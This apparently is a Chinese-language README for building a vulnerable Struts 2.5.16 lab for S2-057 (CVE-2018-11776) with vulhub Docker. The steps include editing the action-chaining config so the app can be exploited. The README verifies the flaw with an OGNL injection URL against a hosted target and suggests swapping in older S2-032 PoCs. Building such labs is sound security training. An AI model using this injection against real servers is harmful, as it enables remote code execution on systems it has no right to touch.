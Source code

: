 # St2-057 在线靶机环境，Enjoy！


# 0x01 搭建环境docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 搭建st2-057漏洞环境

```
docker exec -i -t 88fd8d560155 /bin/bash
```
后台启动进入docker
![](./docker-struts-048.jpg)

根据公告
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
Struts 2.5.16存在s2-057漏洞，然后去下载这个版本

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/

```

apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 修改配置文件

先查找文件struts-actionchaining.xml，发现有2处需要修改
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
配置文件修改-参考链接：
https://lgtm.com/blog/apache_struts_CVE-2018-11776

改为如下所示：

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

然后去bin目录，kill掉进程,因为修改了配置文件，所以需要重启服务
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 重启服务，st2-057搭建完成
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05  验证st2-057
docker 靶机：http://www.canyouseeme.cc:8080/struts2-showcase/

命令执行：http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionChain1.action

${(111+111)}

得到执行结果返回在url中：http://www.canyouseeme.cc:8080/struts2-showcase/222/register2.action

![](./st2-57.jpg)

Ps: ${(111+111)} 可以替换成以前的poc，例如S2-032



# 0x06 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```

